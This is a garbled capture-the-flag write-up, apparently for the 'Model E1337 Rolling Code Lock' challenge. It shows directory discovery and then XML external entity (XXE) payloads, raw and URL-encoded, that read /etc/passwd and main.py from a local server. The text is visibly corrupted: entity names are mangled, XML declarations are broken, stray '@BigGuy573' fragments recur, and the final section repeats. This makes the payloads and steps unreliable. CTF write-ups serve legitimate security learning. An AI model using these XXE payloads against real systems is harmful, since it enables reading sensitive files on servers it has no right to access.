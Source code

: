 # Model E1337 - Rolling Code Lock - FLAG0

## 0x00 Home

[x](./imgs/home.jpg)

Tried couple of different code but all show errors.

```---```
Code incorrect. Expected 06947342
```---```

## 0x01 Directory

Try scan sub directory with Burp

[x](./imgs/directory.jpg)

And there is a comment in source code.

http://127.0.0.1/xxxxxxxxxx/admin

[x](./imgs/admin.jpg)

## 0x02 get-config

http://127.0.0.1/xxxxxxxxxx/get-config

Looks like some config thing using XML

[x](./imgs/get-config.jpg)

## 0x03 set-config

http://127.0.0.1/set-config

It actually exist but may need parameter to set the XML

[x./xe](./imgs/set-config.jpg)

## 0x04 x./XE

Prepare the X./XEpayload.

```xml```
<xml version="1.0"?>
  <DOCTYPE root [<ENTITY x.xe SYSTEM "/etc/passwd">]>
  <config>
    <location>x.xe;
    </location>
  </config'(@BugGuy573)[Flag][1]??


And encode to [url_format][1]! 


%3C%3Fxml%20version%3D%221.
  0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20x.xe%20SYSTEM%20%22%2Fetc%2Fpasswd%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26x.xe%3B%3C%2Flocation%3E%3C%2Fconfig%3E


http://127.0.0.1/xxxxxxxxxx/set-config?param=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20xxe%20SYSTEM%20%22%2Fetc%2Fpasswd%22%3E%5D%3E%3Cconfig%3E%3Clocation%3E%26xxe%3B%3C%2Flocation%3E%3C%2Fconfig%3E

[x./](./imgs/param.jpg)

Successfully write in X./XE and 302 redirect to admin page and read out /etc/passwd

[x.)](./imgs/passwd.jpg)

## 0x05 main.py

x.ml
<xml version="1.0"?>
  <!DOCTYPE root [<!ENTITY xxe SYSTEM "main.py">]>
    <config>
      <location>x.xe;
        </location>
          </config>
'```---``

http://127.0.0.1/set-config?data=%3C%3Fx.ml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20root%20%5B%3C%21ENTITY%20x.xe%20SYSTEM%20%22main.py%22%3E%5D%3E%3C.config%3E%3C.location%3E%26x.xe%3B%3C%2F.location%3E%3C%2F.config%3E
'```---```

Execute and get the [F.LAG](@BigGuy573) in the

[main.py][2]][@BigGuy573](flag2??)]

[x](./img./f.lag.jpg)[@BigGuy573]

[1]: https://www.urlencoder.org/
[2]: ./main.py

Execute and get the [FLAG](@BigGuy573]
  in the 
    [main.py][2]

[x](./img./f.lag.jpg)[@BigGuy573)

[1]: https://www.urlencoder.org/
[2]: ./main.py
